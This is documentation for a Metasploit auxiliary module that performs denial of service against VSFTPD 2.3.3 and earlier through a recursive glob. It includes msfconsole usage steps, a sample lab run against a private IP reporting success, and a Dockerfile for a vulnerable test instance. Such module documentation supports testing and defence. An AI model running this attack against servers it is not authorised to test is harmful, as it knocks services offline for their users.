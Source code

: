 VSFTPD is a popular ftp server written in C. The vulnerability causes a DOS on
the service by leveraging a long recursive glob statement on the server. When
we fill the 4096 character buffer with this recursive glob search, it makes the
current thread spend all of that time unwinding that glob statement which can
use up all the resources on that core. Sending this glob on all threads leave no
availability for anyone else to access the server while taking up all of the CPU
resources of the machine.

## Vulnerable Application

This is an auxiliary for DOSing a VSFTPD server from version 2.3.3 and below.

## Verification Steps

1. Start `msfconsole`
2. `use auxiliary/dos/ftp/vstfpd_232`
3. `set rhosts`
4. `set ftpuser`
5. `set ftppass`
6. `run`

## Scenarios

### VSFTPD 2.3.2 - Arch linux

```
msf6 > use auxiliary/dos/ftp/vsftpd_232
msf6 auxiliary(dos/ftp/vstfpd_232) > set rhosts 192.168.56.106
rhosts => 192.168.56.106
msf6 auxiliary(dos/ftp/vstfpd_232) > set ftpuser anonymous
ftpuser => anonymous
msf6 auxiliary(dos/ftp/vstfpd_232) > set ftppass ''
ftppass => 
msf6 auxiliary(dos/ftp/vstfpd_232) > run
[*] Running module against 192.168.56.106

[*] 192.168.56.106:21 - sending payload
.............................................................................................
[+] 192.168.56.106:21 - Stream was cut off abruptly. Appears DOS attack succeeded.
[*] Auxiliary module execution completed
```

You can verify that it works by either attempting to ftp into the machine after or checking htop on the machine. If the CPU is at max capacity, that would be due to the DOS.

## VSFTPD 2.3.2 - Arch Linux Docker

A simple container was created to easily test this vulnerability. To easily run a vulnerable instance of this application, build this image from this Dockerfile.

```dockerfile
FROM archlinux:latest as build
RUN pacman -Sy --noconfirm gcc make libnsl
RUN curl -O https://security.appspot.com/downloads/vsftpd-2.3.2.tar.gz
RUN tar zxf vsftpd-2.3.2.tar.gz
WORKDIR /vsftpd-2.3.2
RUN make
RUN mkdir -p /usr/share/empty/
RUN chmod +x /vsftpd-2.3.2/vsftpd
RUN mv /vsftpd-2.3.2/vsftpd /bin/vsftpd
RUN mv /vsftpd-2.3.2/vsftpd.conf /etc/vsftpd.conf
RUN chown root:root /etc/vsftpd.conf
EXPOSE 21
CMD [ "/bin/vsftpd" ]
```

From there, you can run the instance of the container with this line

```bash
sudo docker build -t vsftpd:2.3.2 .
sudo docker run --name vsftpd -p 21:21 vsftpd:2.3.2
```

Run the module against this container and the container will either slow down or crash entirely.
